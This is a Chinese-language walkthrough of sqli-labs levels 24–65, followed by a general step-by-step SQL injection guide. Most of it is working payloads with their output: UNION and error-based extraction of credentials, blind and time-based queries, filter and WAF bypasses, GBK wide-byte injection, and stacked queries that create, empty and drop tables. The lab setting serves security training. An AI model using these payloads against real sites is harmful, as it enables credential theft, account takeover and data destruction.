?id=99' union select 1,group_concat(concat_ws(':',username,password)),3 from users where '1' = '1

返回：Dumb:Dumb,Angelina:I-kill-you,Dummy:p@ssword,secure:crappy,stupid:stupidity,superman:genious,batman:mob!le,admin:admin,admin1:admin1,admin2:admin2,admin3:admin3,dhakkan:dumbo,admin4:admin4

## Less-24

**二次注入**

先创建一个新的用户和密码，admin'#/123456，使用这个用户登录后，输入admin/111/111更改密码，修改成功，之后使用admin/111登录成功，夺取了用户admin

原理：

`$sql = "UPDATE users SET PASSWORD='$pass' where username='$username' and password='$curr_pass' ";`

当输入admin'#时：

`$sql = "UPDATE users SET PASSWORD='$pass' where username='admin'#' and password='$curr_pass' ";`

sql语句就变成了：

`$sql = "UPDATE users SET PASSWORD='$pass' where username='admin'#`

此时，我们并不需要原密码进行验证，并且直接修改了其他用户的密码。这就是所谓的 **二次注入**，这种注入发生在用户提交的值被存储在数据库中，这个值可能被转义过。当这个值被其他模块调用时，会使用而不转义的原来的数据，如果这个数据是恶意注入，在不转义的情况下就会生效。

## Less-25

**过滤or、and-双写注入**

这一关过滤了or和and

?id=1'

**Warning**: mysql_fetch_array() expects parameter 1 to be resource, boolean given in **D:\CTF-Tools\phpstudy_pro\WWW\sqli-labs\Less-25\index.php**on line **37**  
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1

?id=1"

Your Login name:Dumb  
Your Password:Dumb

确定为单引号字符型注入

可以使用双写注入

?id=1' OorR 1 = 1--+

?id=1' aadnnd 1=1 --+

这样就可以绕过过滤了

?id=33' union select 1,2,3' 返回2，3

?id=21' union select 1,database(),3 and '

返回数据库名security

?id=99' union select 1,group_concat(table_name),3 from infoORrmation_schema.tables where table_schema='security' '

返回：emails,referers,uagents,users

?id=99' union select 1,group_concat(column_name),3 from infoORrmation_schema.columns where table_schema='security' aANDnd table_name='users' '

返回：id,username,password

?id=99' union select 1,group_concat(concat_ws(':',username,passwoORrd)),3 from users -- +

返回：Dumb:Dumb,Angelina:I-kill-you,Dummy:p@ssword,secure:crappy,stupid:stupidity,superman:genious,batman:mob!le,admin:456,admin1:admin1,admin2:admin2,admin3:admin3,dhakkan:dumbo,admin4:admin4,【rr:ee,admin#:111111,admin'#:111】（这些是Less-24写入的新用户名和密码）

## Less-25a

**过滤or、and-双写注入-数字型**

注入以下内容，以下内容全部网页都回显错误，说明该网页是数字型注入。

?id=1'--+  
?id=1')--+  
?id=1'))--+  
?id=1"--+  
?id=1")--+

注入：?id=1 OorR 1 = 1--+ 返回正常

?id=-1 union select 1,2,3' 返回2，3

?id=-1 union select 1,database(),3 and '

返回数据库名security

?id=-1 union select 1,group_concat(table_name),3 from infoORrmation_schema.tables where table_schema='security' '

返回：emails,referers,uagents,users

?id=-1 union select 1,group_concat(column_name),3 from infoORrmation_schema.columns where table_schema='security' aANDnd table_name='users' '

返回：id,username,password

?id=-1 union select 1,group_concat(concat_ws(':',username,passwoORrd)),3 from users -- +

返回：Dumb:Dumb,Angelina:I-kill-you,Dummy:p@ssword,secure:crappy,stupid:stupidity,superman:genious,batman:mob!le,admin:456,admin1:admin1,admin2:admin2,admin3:admin3,dhakkan:dumbo,admin4:admin4,【rr:ee,admin#:111111,admin'#:111】（这些是Less-24写入的新用户名和密码）

## Less-26

**过滤注释符和空格-报错注入**

这一关过滤了注释符和空格，同时or、and也被过滤了

输入?id=1'时报错，确定存在单引号字符型注入

对于被过滤的字符，可以使用其他的字符进行替代，使用 “%a0” 或 “%0b” 替代空格，使用 “||” 替代 “or”，使用 “%26%26” 替代 “and”。例如：

```
-1' || 1 = 1  || '
```

```
?id=-1' || updatexml(1,concat(0x7e,database()),1) || '1'='1

?id=1' || updatexml(1, concat(0x7e, (SELECT (group_concat(table_name)) FROM (infoorrmation_schema.tables) WHERE (table_schema='security'))) ,1) || '1'='1

?id=1'||updatexml(1,concat(1,(SELECT (group_concat(column_name)) FROM (infoorrmation_schema.columns) WHERE (table_schema='security' %26%26 table_name = 'users'))) ,1) || '1'='1

?id=-1' || updatexml(1,concat(0x0a,(SELECT(group_concat(concat_ws(0x3a,username,passwoorrd))) FROM (security.users) WHERE (id = 1) ))  ,1) || '1'='1
```

## Less-26a

**过滤注释符，空格-union注入**

和less-26过滤的基本一样，但这一关没有给出报错信息，无法用报错注入。此处就需要使用 URL 编码来代替空格，然后用 UNION 注入。判断有几列可用，别忘了 “ORDER” 中的 “or” 被过滤掉了。

?id=1'

?id=1')

?id=1') || (' 闭合成功

%a0 空格

%27 '

```
?id=1')%a0OorRDER%a0BY%a03||('1

?id=9999')%a0UNION%a0SELECT%a01,2,3%a0||('1

?id=9999')%a0UNION%a0SELECT%a01,database(),3%a0||('1

?id=9999')%a0UNION%a0SELECT%a01,group_concat(table_name),3%a0FROM%a0infoORrmation_schema.tables%a0WHERE%a0table_schema = 'security'%a0||('1')=('2

?id=9999')%a0UNION%a0SELECT%a01,group_concat(column_name),3%a0FROM%a0infoORrmation_schema.columns%a0WHERE%a0table_schema='security'%a0AandND%a0table_name='users'%a0||('1')=('2

?id=9999')%a0UNION%a0SELECT%a01,group_concat(concat_ws(":",username,passwoORrd)),3%a0FROM%a0users%a0WHERE%a0('1
```

## Less-27

**过滤union、select**

```
?id=1'%a0ORDER%a0BY%a03||'1'='1

?id=9999'%a0UNION%a0SELECT%a01,2,3%a0or%a0'1'='1

?id=1111'%a0UniOn%a0SelECT%a01,2,3;%00


?id=9999'%a0UNiON%a0SElECT%a01,2,3%a0or%a0'1'='1

?id=9999'%a0UNiON%a0SELeCT%a01,database(),3%a0or%a0'1'='1

?id=9999'%a0UNiON%a0SELeCT%a01,group_concat(table_name),3%a0FROM%a0information_schema.tables%a0WHERE%a0table_schema = 'security'%a0or%a0'1'='2
```

## Less-28

## Less-29

**HPP-'**

**WAF (Web 应用防护系统)**是通过执行一系列针对 HTTP/HTTPS 的安全策略来专门为 Web 应用提供保护的一款产品。此处应该是对注入的参数进行了强效过滤，以此达到了 WAF 的作用。

绕过的方法是 **HPP (HTTP Parameter Pollution)**，也就是 HTTP 参数污染。我们注入两个同名的参数 id，第一个参数用于绕过 WAF，第二个参数用于注入。

```
?id=1&id=2
```

这种攻击成功绕过了 WAF，对第二个参数用单引号闭合并注释掉后面的内容。网页回显正常的参数，说明网页存在单引号闭合的字符型注入。

```
?id=1&id=2'--+
```

获取数据库信息

使用参数污染后，注入流程和 Less 1 一样。判断表有几列。

```
?id=1&id=1' ORDER BY 3--+
```

判断哪些列可用。

```
?id=1&id=-1' UNION SELECT 1,2,3--+
```

爆数据库名。

```
?id=1&id=-1' UNION SELECT 1,database(),3 --+
```

爆表名。

```
?id=1&id=-1' UNION SELECT 1,group_concat(table_name),3 FROM information_schema.tables WHERE table_schema='security'--+
```

爆字段名。

```
?id=1&id=-1' union select 1,group_concat(column_name),3 FROM information_schema.columns WHERE table_schema='security' and table_name='users'--+
```

爆出 users 表中的信息。

```
?id=1&id=-1' UNION SELECT 1,group_concat(concat_ws(':',username,password)),3 FROM security.users--+
```

## Less-30

**HPP-"**

```
id=1&id=1" ORDER BY 3--+

?id=1&id=-1" UNION SELECT 1,2,3--+

?id=1&id=-1" UNION SELECT 1,database(),3 --+

?id=1&id=-1" UNION SELECT 1,group_concat(table_name),3 FROM information_schema.tables WHERE table_schema='security'--+

?id=1&id=-1" union select 1,group_concat(column_name),3 FROM information_schema.columns WHERE table_schema='security' and table_name='users'--+

?id=1&id=-1" UNION SELECT 1,group_concat(concat_ws(':',username,password)),3 FROM security.users--+
```

## Less-31

**HPP-")**

```
?id=1&id=1") ORDER BY 3--+

?id=1&id=-1") UNION SELECT 1,2,3--+

?id=1&id=-1") UNION SELECT 1,database(),3 --+

?id=1&id=-1") UNION SELECT 1,group_concat(table_name),3 FROM information_schema.tables WHERE table_schema='security'--+

?id=1&id=-1") union select 1,group_concat(column_name),3 FROM information_schema.columns WHERE table_schema='security' and table_name='users'--+

?id=1&id=-1") UNION SELECT 1,group_concat(concat_ws(':',username,password)),3 FROM security.users--+
```

## Less-32,33,36

**宽字节注入**

注入正常的参数，网页回显正常信息。注入单引号对参数进行闭合，网页虽然返回了正确的信息，但是对单引号进行了转义。

?id=1'


宽字节注入（**GBK/Big5 Character Encoding SQL Injection**）是一种利用数据库字符集与Web应用层字符编码不一致，结合转义函数（如`addslashes`）缺陷的SQL注入攻击方式。

**漏洞原理**

1. **字符集转换问题**
   
   - 当数据库使用GBK等多字节编码时，某些字符（如`0xbf5c`）会被视为一个合法字符（如`縗`），而非两个独立字节。
   
   - 攻击者通过输入`%bf%27`（`0xbf`+`'`的URL编码`%27`），触发字符集转换错误。

2. **转义函数绕过**
   
   - PHP的`addslashes`或`mysql_real_escape_string`会将单引号`'`转义为`\'`（即`%5c%27`）。
   
   - 当输入`%bf%27`时，转义后的字符串变为`%bf%5c%27`。由于GBK将`%bf%5c`解析为合法字符`縗`，剩下的`%27`（`'`）未被转义，导致注入。

对于一般的转义字符，我们是无法构造注入的 payload 的，但这并不代表网页就没有任何漏洞可以注入。对**宽字节注入漏洞**进行测试，注入如下参数。当数据库的编码采用 **GBK 国标码**时，虽然单引号还是会加上反斜杠从而被转义，但是 “%df” 会和反斜杠的 URL 编码 “%5C” 闭合，从而构成 GBK 国标码中的汉字“連”，使得用于转义的反斜杠被我们“吃掉”了。这种操作是由于 GBK 国标码是双字节表示一个汉字，因此导致了反斜杠和其他的字符共同表示为一个汉字。这可以让数据库的 SQL 查询了正确的参数(汉字)，从而可以使用 UNION 语句进行注入。

```
?id=1%df'
```


```
?id=1%df' ORDER BY 3--+
?id=1%df' ORDER BY 4--+

?id=-1%df' UNION SELECT 1,2,3 --+

?id=-1%df' UNION SELECT 1,database(),3 --+

#此处数据库名要用十六进制 (HEX) 编码替代，避免单引号的使用。
?id=-1%df' UNION SELECT 1,group_concat(table_name),3 FROM information_schema.tables WHERE table_schema=0x7365637572697479--+

?id=-1%df' UNION SELECT 1,group_concat(column_name),3 FROM information_schema.columns WHERE table_schema=0x7365637572697479 and table_name=0x7573657273--+

?id=-1%df' UNION SELECT 1,group_concat(concat_ws(0x3a,username,password)),3 FROM security.users--+
```

#### 

## Less-34,37

**宽字节注入-POST**

这一关是POST，抓包看一看，传入admin'/admin,同样对单引号转义，可以用宽字节注入


uname=%df'&passwd=admin&submit=Submit


uname=%df'--+&passwd=admin&submit=Submit 注释后页面正常，存在单引号注入


```
uname=1%df' UNION SELECT 1,2 --+&passwd=&submit=Submit

uname=1%df' UNION SELECT database(),2 --+&passwd=&submit=Submit

uname=1%df' UNION SELECT group_concat(table_name),2 FROM information_schema.tables WHERE table_schema=0x7365637572697479 --+&passwd=&submit=Submit

uname=1%df' UNION SELECT group_concat(column_name),2 FROM information_schema.columns WHERE table_schema=0x7365637572697479 AND table_name=0x7573657273 --+&passwd=&submit=Submit

uname=1%df' UNION SELECT group_concat(concat_ws(0x3a,username,password)),2 FROM security.users--+&passwd=&submit=Submit
```


## Less-35

**宽字节注入-数字型**

直接用 ORDER BY 排序，网页回显正常数据，确定是数值型注入。由于数值型注入不涉及任何编码问题，因此任何转义操作都形同虚设。

```
?id=1 ORDER BY 3--+

#直接获取数据
?id=-1 UNION SELECT 1,group_concat(concat_ws(0x3a,username,password)),3 FROM security.users--+
```

#### 

## Less-38

**堆叠注入**

这一关可以用Less-1的payload就可以获取数据，

```
?id=1
?id=1'
?id=1' --+
?id=1' order by 3 --+
?id=1' order by 4 --+
?id=-1' union select 1,2,3 --+

?id=-1' union select 1,database(),3 --+

?id=-1' UNION SELECT 1,group_concat(table_name),3 FROM information_schema.tables WHERE table_schema='security'--+

?id=-1' UNION SELECT 1,group_concat(table_name),3 FROM information_schema.tables WHERE table_schema=0x7365637572697479--+
# 0x7365637572697479 代替 'security',通过十六进制编码 避免单引号使用，绕过转义和过滤机制。

?id=-1' union select 1,group_concat(column_name),3 FROM information_schema.columns WHERE table_schema='security' and table_name='users'--+

?id=-1' union select 1,group_concat(column_name),3 FROM information_schema.columns WHERE table_schema=0x7365637572697479 and table_name=0x7573657273--+

?id=-1' UNION SELECT 1,group_concat(concat_ws(':',username,password)),3 FROM security.users--+

?id=-1' UNION SELECT 1,group_concat(concat_ws(0x3a,username,password)),3 FROM security.users--+
```

但这一关是用来练习堆叠注入的

堆叠注入（**Stacked Queries Injection**）是一种允许攻击者在一次数据库请求中执行 **多条SQL语句**的注入技术。其核心是利用SQL语句的分隔符（如分号`;`）拼接恶意代码，常用于执行任意数据库操作（增删改查）。

**堆叠注入原理**

**基本条件**

- **数据库支持多语句执行**：  
  MySQL默认情况下 **不支持**堆叠注入（需特定驱动或配置，如PHP的`mysqli_multi_query`）。  
  SQL Server、PostgreSQL等数据库通常支持。

- **应用程序未过滤分号`;`**：  
  若代码直接拼接用户输入且未过滤分号，攻击者可插入分号分隔多条SQL语句。

所谓**堆叠注入**就是在原语句后加上分号，从而闭合前面的内容作为第一条 SQL 语句。然后在后面输入第二条的数据库操作语句，在条件允许可以被后端带入数据库执行。堆叠注入使用的范围非常有限，例如后端可能会限制 SQL 只执行一条语句。一旦这种漏洞存在，对数据库的破坏性是毁灭性的，因为这表示攻击者可以肆意对数据库进行操作。  
例如此处使用堆叠注入新建一张表，使用 CREATE TABLE 子句，该表将复制 users 表作为一张新的表存在。这种复制可以结合 SQL 注入爆出表名来复制，也可以用社会工程学来猜测。

```
?id=1';CREATE TABLE WhiteMoon LIKE users;--+
```

网页回显正常的信息，打开数据库发现security库中已经多了一张whitemoon表了。


使用堆叠查询把 users 表中的数据插入新的表中，使用 INSERT INTO 子句实现。

```
?id=1';INSERT INTO WhiteMoon SELECT * FROM users;--+
```


使用堆叠查询新建的表的所有记录删掉，使用 DELETE 子句实现。

```
?id=1';DELETE FROM WhiteMoon;--+
```


使用堆叠查询把新建的表删掉，使用 DROP 子句实现。

```
?id=1';DROP TABLE WhiteMoon;--+
```


## Less-39,41

**堆叠注入-数字型**

#### 

```
?id=1;CREATE TABLE WhiteMoon LIKE users;--+
?id=1;INSERT INTO WhiteMoon SELECT * FROM users;--+
?id=1;DELETE FROM WhiteMoon;--+
?id=1;DROP TABLE WhiteMoon;--+
```

## Less-40

**-堆叠注入-')**

?id=1 正常

?id=1' 不显示

?id=1" 正常

id=1) 不显示

id=1') 不显示

id=1"） 正常

id=1')) 不显示

```
?id=1');CREATE TABLE WhiteMoon LIKE users;--+
?id=1');INSERT INTO WhiteMoon SELECT * FROM users;--+
?id=1');DELETE FROM WhiteMoon;--+
?id=1');DROP TABLE WhiteMoon;--+
```

## Less-42,43,44,45

**堆叠注入/二次注入**

用户名测试什么都没有，密码测试直接登录成功

a' OR 1 = 1#


可以在已知某个用户的用户名的条件下使用万能密码夺取用户，也可以使用二次注入（Less-24）进行攻击。由于密码参数没有进行防御，可以在该字段测试堆叠注入。使用 Less-38 的测试流程，每次登陆时完成一步堆叠注入。

```
a' OR 1 = 1;CREATE TABLE WhiteMoon LIKE users;#
a' OR 1 = 1;INSERT INTO WhiteMoon SELECT * FROM users;#
a' OR 1 = 1;DELETE FROM WhiteMoon;#
a' OR 1 = 1;DROP TABLE WhiteMoon;#
```

## Less-46

**报错注入-数字型-页面不返回回显**

?sort=1

?sort=2

?sort=3

?sort=4 报错，存在报错注入，可以利用这个漏洞去获取其他数据

  


报错注入：

```
?sort=1 AND updatexml(1,concat("!",database()),2)#

?sort=1 AND updatexml(1,concat("!",(SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'security')),2)#

?sort=1 AND updatexml(1,concat("!",(SELECT group_concat(c2olumn_name) FROM information_schema.columns WHERE table_schema = 'security' AND table_name = 'emails')),2)#

?sort=1 AND updatexml(1,concat('!',(SELECT concat_ws(':',id,email_id) FROM (SELECT id,email_id FROM emails)text LIMIT 0,1)),1)#

?sort=1 AND updatexml(1,concat('!',(SELECT concat_ws(':',id,email_id) FROM (SELECT id,email_id FROM emails)text LIMIT 1,1)),1)#
```

## Less-47

**报错注入-'-页面不返回回显**

#### 

```
?sort=1' AND updatexml(1,concat("!",database()),2) --+

?sort=1' AND updatexml(1,concat("!",(SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'security')),2) --+

?sort=1' AND updatexml(1,concat("!",(SELECT group_concat(c2olumn_name) FROM information_schema.columns WHERE table_schema = 'security' AND table_name = 'emails')),2) --+

?sort=1' AND updatexml(1,concat('!',(SELECT concat_ws(':',id,email_id) FROM (SELECT id,email_id FROM emails)text LIMIT 0,1)),1) --+

?sort=1' AND updatexml(1,concat('!',(SELECT concat_ws(':',id,email_id) FROM (SELECT id,email_id FROM emails)text LIMIT 1,1)),1) --+
```

#### 

## Less-48

**时间盲注-数字型**

过测试，这一关是数字型注入，页面不返回报错信息，要使用时间盲注

```
?sort=1 AND IF(LENGTH(database())=8,sleep(1),1)--+

?sort=1 AND IF(LEFT((SELECT database()), 1)='s',sleep(1),1)--+

?sort=1 AND IF(LEFT((SELECT database()), 8)='security',sleep(1),1)--+
```

## Less-49

**时间盲注-'**

```
?sort=1' AND IF(LENGTH(database())=8,sleep(1),1)--+

?sort=1' AND IF(LEFT((SELECT database()), 1)='s',sleep(1),1)--+

?sort=1' AND IF(LEFT((SELECT database()), 8)='security',sleep(1),1)--+
```

## Less-50,52

输入正常的参数，网页回显用户名列表。对 sort 参数使用单引号闭合，网页返回错误信息。

```
?sort=1'
```

和 Less 46 一样使用报错注入或时间注入就可以完成，此处用于测试堆叠注入。使用堆叠查询完成 Less 38 的样例。

```
?sort=1;CREATE TABLE WhiteMoon LIKE users;--+
?sort=1;INSERT INTO WhiteMoon SELECT * FROM users;--+
?sort=1;DELETE FROM WhiteMoon;--+
?sort=1;DROP TABLE WhiteMoon;--+
```

## Less-51,53

此处存在单引号闭合的字符型注入。

Less 47 一样使用报错注入或时间注入就可以完成，此处用于测试堆叠注入。

```
?sort=1';CREATE TABLE WhiteMoon LIKE users;--+
?sort=1';INSERT INTO WhiteMoon SELECT * FROM users;--+
?sort=1';DELETE FROM WhiteMoon;--+
?sort=1';DROP TABLE WhiteMoon;--+
```

#### 

## Less-54

**联合查询注入(十次限制)-'**

#### 

```
#判断得知为字符型注入:
?id=1' and 1=1 --+

#判断字段数
?id=1' order by 3 --+

#爆当前数据库和用户名
?id=0' union select 1,user(),database() --+

#爆当前数据库下的所有表
?id=0' union select 1,database(),group_concat(table_name) from information_schema.tables where table_schema=database() --+

#这里的表每一次都是随机给出的/dtbzuzk1tk/

#爆字段
?id=0' union select 1,database(),group_concat(column_name) from information_schema.columns where table_name='dtbzuzk1tk' --+

#字段也是随机/secret_S7T1/

#爆数据，取/secret_****/段为过关数据
?id=0' union select 1,database(),group_concat(0x7e,sessid,0x7e,secret_S7T1) from dtbzuzk1tk --+
```

#### 

## Less-55

**联合查询注入(十四次限制)-)**

#### 

```
#判断得知为字符型注入:
?id=1) and 1=1 --+

#判断字段数
?id=1) order by 3 --+

#爆当前数据库和用户名
?id=0) union select 1,user(),database() --+

#爆当前数据库下的所有表
?id=0) union select 1,database(),group_concat(table_name) from information_schema.tables where table_schema=database() --+

#这里的表每一次都是随机给出的/k4slr3jkz6/

#爆字段
?id=0) union select 1,database(),group_concat(column_name) from information_schema.columns where table_name='k4slr3jkz6' --+

#字段也是随机/secret_OBJS/

#爆数据，取/secret_****/段为过关数据
?id=0) union select 1,database(),group_concat(0x7e,sessid,0x7e,secret_OBJS) from k4slr3jkz6 --+
```

#### 

## Less-56

**联合查询注入(十四次限制)-'）**

#### 

```
#判断得知为字符型注入:
?id=1') and 1=1 --+

#判断字段数
?id=1') order by 3 --+

#爆当前数据库和用户名
?id=0') union select 1,user(),database() --+

#爆当前数据库下的所有表
?id=0') union select 1,database(),group_concat(table_name) from information_schema.tables where table_schema=database() --+

#这里的表每一次都是随机给出的/k4slr3jkz6/

#爆字段
?id=0') union select 1,database(),group_concat(column_name) from information_schema.columns where table_name='k4slr3jkz6' --+

#字段也是随机/secret_OBJS/

#爆数据，取/secret_****/段为过关数据
?id=0') union select 1,database(),group_concat(0x7e,sessid,0x7e,secret_OBJS) from k4slr3jkz6 --+
```

#### 

# Less-57

**联合查询注入(十四次限制)-"**

#### 

```
#判断得知为字符型注入:
?id=1" and 1=1 --+

#判断字段数
?id=1" order by 3 --+

#爆当前数据库和用户名
?id=0" union select 1,user(),database() --+

#爆当前数据库下的所有表
?id=0" union select 1,database(),group_concat(table_name) from information_schema.tables where table_schema=database() --+

#这里的表每一次都是随机给出的/4wlhf91tdn/

#爆字段
?id=0" union select 1,database(),group_concat(column_name) from information_schema.columns where table_name='4wlhf91tdn' --+

#字段也是随机/secret_WCBG/

#爆数据，取/secret_****/段为过关数据
?id=0" union select 1,database(),group_concat(0x7e,sessid,0x7e,secret_WCBG) from 4wlhf91tdn --+
```

## Less-58

**报错注入（五次限制）-'**

#### 

```
#获得表名：之前已经知道数据库的名字是challenges

?id=1' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='CHALLENGES') ),1)--+

#获取字段：
?id=1' and updatexml(1,concat(0x7e,(select group_concat(column_name) from Information_schema.columns where table_name='rropvsv2k3' )),1)--+

 #获取字段的值：
 ?id=1' and updatexml(1,concat(0x7e,(select group_concat(secret_NP44) from challenges.rropvsv2k3 )),1)--+

 mNPc5dq8hrv47LdDXgFFjiJe
```

## Less-59

**报错注入（五次限制）-数字型**

#### 

```
#获得表名：

?id=1 and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='CHALLENGES') ),1)--+

#获取字段：
?id=1 and updatexml(1,concat(0x7e,(select group_concat(column_name) from Information_schema.columns where table_name='jzhybgbqrz' )),1)--+

 #获取字段的值：
 ?id=1 and updatexml(1,concat(0x7e,(select group_concat(secret_F0VL) from challenges.jzhybgbqrz )),1)--+

 V4AyD7JBzbT2AdCUcw1OlmAg
```

## Less-60

**报错注入（五次限制）-")**

#### 

```
#获得表名：

?id=1") and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='CHALLENGES') ),1)--+

#获取字段：
?id=1") and updatexml(1,concat(0x7e,(select group_concat(column_name) from Information_schema.columns where table_name='801z2q3ff4' )),1)--+

 #获取字段的值：
 ?id=1") and updatexml(1,concat(0x7e,(select group_concat(secret_9N7R) from challenges.801z2q3ff4 )),1)--+

 Iy2k37ZvBStuGa5Xq0b8aUGy
```

## Less-61

**报错注入（五次限制）-'))**

#### 

```
#获得表名：

?id=1')) and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='CHALLENGES') ),1)--+

#获取字段：
?id=1')) and updatexml(1,concat(0x7e,(select group_concat(column_name) from Information_schema.columns where table_name='v9gnhvugn2' )),1)--+

 #获取字段的值：
 ?id=1')) and updatexml(1,concat(0x7e,(select group_concat(secret_9EHB) from challenges.v9gnhvugn2 )),1)--+

 s1DwpRlu1CKlzFP65tuY5DkN
```

#### 

## Less-62

**-盲注-')**

此处union和报错注入都已经失效了，那我们就要使用盲注了。

- 爆当前数据库的长度:

```
?id=1') and length(database())>8 #   正确 
?id=1') and length(database())>9 #   正确 
?id=1') and length(database())>10 #  错误 
?id=1') and length(database())=10 #  正确 
```

得数据库长度为 10

- 爆数据库的每一位字符:

```
?id=1') and ascii(mid(database(),1,1))=99 #
```

- 爆当前数据库所有表的个数:

```
?id=1') and (select count(table_name) from information_schema.tables where table_schema=database())=1 #
```

- 第一个表的长度:

```
?id=1') and length((select table_name from information_schema.tables where table_schema=database() limit 0,1))>5 #
```

- 第一个表的每一个字符:

```
?id=1') and ascii(mid((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=78 #
```

得到表名为: N18FOKJDNC

- 爆第一个字段名的长度:

```
?id=1') and length((select column_name from information_schema.columns where table_name='N18FOKJDNC' limit 0,1))=2 #
```

- 爆第一个字段名的每一个字符:

```
?id=1') and ascii(mid((select column_name from information_schema.columns where table_name='N18FOKJDNC' limit 0,1),1,1))=105 #
```

最后得第一个字段名为: id

然后依次爆得第二、三、四个字段名分别为: sessid,secret_BDFP, tryy

- 爆secret_BDFP字段值的长度:

```
?id=1') and (select length(secret_BDFP) from N18FOKJDNC)=24 #
```

- 爆每一个值:

```
?id=1') and ascii(mid((select secret_BDFP from N18FOKJDNC),1,1))=113 #
```

最后得值为: **qAAMVVGX0thxbmsazGMxOlFe**

## Less-63

**-盲注-'**

注入点改变，其他于Less-62一样

## Less-64

**-盲注-数字**

注入点改变，其他于Less-62一样

## Less-65

**-盲注-"**

注入点改变，其他于Less-62一样

## SQL注入一般步骤指南

### 1. 探测注入点

**目标**：寻找可能存在漏洞的输入参数（如URL参数、表单字段、Cookie等）。

**方法**：

- 在参数后添加单引号`'`，观察是否返回数据库错误（如`You have an error in your SQL syntax`）

- 使用逻辑测试判断参数是否可控：
  
  ```
  ?id=1' and '1'='1  -- 正常返回
  ?id=1' and '1'='2  -- 无返回（说明条件生效，存在注入）
  
  ?id=1'     → 观察是否报错（语法错误）
  ?id=1 AND 1=1 → 正常响应
  ?id=1 AND 1=2 → 异常响应（内容消失/报错）
  ```

### 2. 判断注入类型

#### 数字型注入

**特征**：参数未被引号包裹，直接参与SQL查询。

**判断方法**：

`id=1'`报错 →`id=1 AND 1=1`正常 →`id=1 AND 1=2`报错

#### 字符型注入

**特征**：参数被引号（单引号或双引号）包裹。

**判断方法**：

`id=1'`报错 →`id=1' AND '1'='1`正常 →`id=1' AND '1'='2`报错

#### 其他注入类型

- **基于错误（Error-Based）**：通过报错信息直接获取数据，利用`extractvalue()`等函数直接返回错误信息：  
  `id=1' AND extractvalue(1,concat(0x7e,version()))--+`

- **联合查询（UNION-Based）**：利用`UNION SELECT`回显数据

- **布尔盲注（Boolean Blind）**：通过页面状态（真/假）推断数据

- **时间盲注（Time-Based）**：通过延时函数（如`SLEEP(5)`）判断条件，通过响应时间差异判断：  
  `id=1' AND IF(1=1,SLEEP(5),0)--+`

### 3. 确定字段数

**方法**：使用`ORDER BY`子句递增测试，直到报错：

```
?id=1' ORDER BY 3 --+  -- 正常返回（说明至少3列）
?id=1' ORDER BY 4 --+  -- 报错（说明字段数为3）
```

**目的**：为后续`UNION SELECT`查询匹配列数。

### 4. 寻找显示位

**方法**：使用`UNION SELECT`构造联合查询，强制原查询返回空结果：

```
?id=-1' UNION SELECT 1,2,3 --+
```

**结果**：观察页面显示的数字（如2或3），该位置即为数据显示位。

- **为什么用`id=-1`?**→ 使原查询无结果，仅显示 UNION 数据

- **页面显示数字 2,3,5**→ 这些位置可用于输出数据

### 5. 提取数据库信息

#### 获取当前数据库名和版本

```
?id=-1' UNION SELECT 1,database(),version() --+
```

- `database()`：返回当前数据库名

- `version()`：返回数据库版本信息

#### 获取表名

利用MySQL自带的`information_schema`查询表名：

```
?id=-1' UNION SELECT 1,2,GROUP_CONCAT(table_name),4,5,6,7 FROM information_schema.tables WHERE table_schema='test_db'--+
```

> **规避引号过滤**：
> 
> 将`'test_db'`转为十六进制`0x746573745f6462`
> 
> 工具转换命令：`echo -n "test_db" | xxd -ps`

#### 获取列名

指定目标表名查询列信息：

```
?id=-1' UNION SELECT 1,2,GROUP_CONCAT(column_name),4,5,6,7 FROM information_schema.columns WHERE table_name='users' AND table_schema='test_db'--+
```

> **分页技巧**：
> 
> 添加`LIMIT 0,5`分批获取数据（避免结果过长截断）

### 6. 提取具体数据

查询目标表中的敏感字段（如用户名、密码）：

```
?id=-1' UNION SELECT 1,CONCAT(username,0x3a,password),3,4,5,6,7 FROM users--+
```

> 使用`group_concat()`可一次性获取多列数据
> 
> 如需分页，可添加`LIMIT`子句：`LIMIT 0,5`（获取前5条）
> 
> - **输出优化**：
>   
>   `0x3a`是冒号`:`的十六进制，用于分隔字段
>   
>   `GROUP_CONCAT(username,':',password)`合并多行结果

## 总结步骤示例

1. 探测注入点：?id=1' → 观察报错

2. 判断类型：?id=1 and 1=1 → 正常；?id=1 and 1=2 → 报错（数字型）

3. 查列数：?id=1 order by 3 → 正常；?id=1 order by 4 → 报错（3列）

4. 找显示位：?id=-1 union select 1,2,3 → 显示2和3

5. 查库名版本：?id=-1 union select 1,database(),version()

6. 查表名：?id=-1 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()

7. 查列名：?id=-1 union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'

8. 查数据：?id=-1 union select 1,group_concat(username),group_concat(password) from users

参考资料：[sqli-labs通关详解 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/web/440191.html)
